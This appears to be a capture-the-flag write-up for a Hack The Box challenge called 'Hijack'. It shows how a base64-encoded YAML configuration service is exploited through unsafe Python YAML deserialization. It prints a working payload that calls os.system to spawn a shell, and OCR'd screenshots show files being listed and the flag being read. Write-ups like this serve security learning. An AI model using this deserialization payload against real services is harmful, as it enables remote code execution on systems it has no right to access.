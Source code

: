 # Hijack
> The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?

## About the Challenge
We were given a server to connect using nc. Here is the preview


[Image extracted text: [TCS]
[1]
Create
config
[2]
Load
config
[3]
Exit]


There are 2 functionalities on the application, we can create a config and we can load the config

## How to Solve?
If we choosing `Create config` functionality, you need to input the temperature units, target temperatur (solar array, propulsion components, and infrared spectrometer), and auto calibration. After that you will get the result in `base64` encoding


[Image extracted text: [TCS
[1]
Create config
[2]
Load
config
[3] Exit
Creating
new
config
Temperature
units (F/C/K):
Propulsion
Components Target
Temperature
10
Solar Array Target
Temperature
20
Infrared
Spectrometers Target
Temperature
30
Auto Calibration (ON/OFF)
ON
Serialized config: ISFweXRob2Avb2JqZWNOOlgfbWFpblgfLkNvbmZpZyBZSVJfcBBlY3Ryb21ldGVyXBRIbXA6ICczMCcsIGFIdG9fY2FsaWJyYXRpb
246ICdPTicsCiAgcHJvcHVsc2lvbl9OZWlwOiAnMTAnLCBzbZxhcl9hcnJheV9OZWlwOiAnMjAnLCBIbmlOczogRnOK
Uploading
to
ship.]


If we decode the config, you will get this result

```python
!!python/object:__main__.Config {IR_spectrometer_temp: '30', auto_calibration: 'ON', propulsion_temp: '10', solar_array_temp: '20', units: F}
```

The config is using YAML structure, and im using [Hacktricks: Python Yaml Deserialization
](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization) as a reference to do Python YAML Deserialization

So the final payload is
```
!!python/object/apply:os.system
- sh
```

And then encode the payload using `base64` encoding. Choose option 2 (Load Config) and paste the payload there


[Image extracted text: [TCS] -
[1]
Create config
[2]
Load
config
[3] Exit
Serialized
to load: ISFweXRob2Avb2JqZWNOLZFwcGxSOm9zLnNSc RlbQotIHNo
15
chall.py
txt
hijack.py
cat
txt
HTB{1s_It_juSt_m3_Or_iS_It_g3tTing_hot_In_h3r3?}
config
flag
flag]


```
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
```